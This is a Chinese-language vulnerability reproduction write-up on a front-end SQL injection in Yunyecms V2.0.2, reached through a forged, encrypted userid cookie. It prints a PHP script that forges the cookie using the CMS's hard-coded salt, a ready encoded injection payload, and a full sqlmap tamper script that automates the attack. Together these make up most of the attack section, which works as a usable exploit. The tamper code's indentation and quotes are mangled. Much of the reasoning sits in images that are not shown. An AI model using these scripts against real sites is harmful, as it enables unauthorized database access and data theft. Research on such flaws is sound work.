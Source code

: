 ```yaml
---
title: "Yunyecms V2.0.2 前台注入漏洞（二）"
id: zhfly3293
---
```


# Yunyecms V2.0.2 前台注入漏洞（二）

## 一、漏洞简介

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

## 二、漏洞影响

yunyecms 2.0.2

## 三、复现过程

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![image](../img/5c2ccbec4693120d97672527b496e52a.png)

经过了加密处理，根据解密算法**yunyecms_strdecode**可以在corefun.php找到对应的加解密算法

![image](../img/3050b5f9563f88d1b4e4d47d94bdff88.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![image](../img/47c753a958061e48712be96f562e99b8.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![image](../img/72008b3d369e7a2796c3bf7de8b662a1.png)

```
YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ== 
```

payload生成代码front-test.php为：

```
<?php
function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
}
function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	$retstr=base64_decode($string);
	$SHA1salt=substr(sha1($salt),0,35);
	$md5salt=substr(md5($salt),8,18);
    $retstr=substr($retstr,strlen($md5salt));
    $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
	return base64_decode($retstr);
}
if ($_GET['cookie']) {
	$string=$_GET['cookie'];
	$userid=yunyecms_strdecode($string);
	echo $userid;
}
if($_GET['userid']){
	$string=$_GET['userid'];
	$cookie=yunyecms_strencode($string);
	echo $cookie;
} 
```

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![image](../img/0a2b1d531eaa7050072a5a2941fd9441.png)

跟入pagelist函数，将$where拼接到了sql查询语句中$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![image](../img/1cbc4e8dbb3f925767f4e6e4666a743b.png)

详细查看下该函数，直接进行了sql查询。

![image](../img/2d015afa15854cb9c44c19f6ee663639.png)

附上截

![image](../img/f9bb9af3c6eaa6a8bf38233ac824b272.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![image](../img/1e186f38e62a2268cb817da5979fe8c0.png)

对应tamper的的脚本为

```
yunyecms_front_sqli_tamp.py
#!/usr/bin/env python

“”"

Copyright © 2006-2018 sqlmap developers ([http://sqlmap.org/](http://sqlmap.org/))

See the file ‘LICENSE’ for copying permission

“”"

import base64

import hashlib

from lib.core.enums import PRIORITY

from lib.core.settings import UNICODE_ENCODING

**priority** = PRIORITY.LOW

def dependencies():

pass

def md5(data):

hash_md5 = hashlib.md5(data)

md5data=hash_md5.hexdigest()[8:18]

return md5data

def sha1(data):

string_sha1=hashlib.sha1(data).hexdigest()[0:35]

return string_sha1

def yunyecms_strencode(string):

salt=’~^y#u%n$y^e*c%m^s^~’

return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))

def tamper(payload, **kwargs):

“”"

Base64-encodes all characters in a given payload

```
&gt;&gt;&gt; tamper("1' AND SLEEP(5)#")
'MScgQU5EIFNMRUVQKDUpIw=='
"""

return yunyecms_strencode(payload) if payload else payload 
``` 
```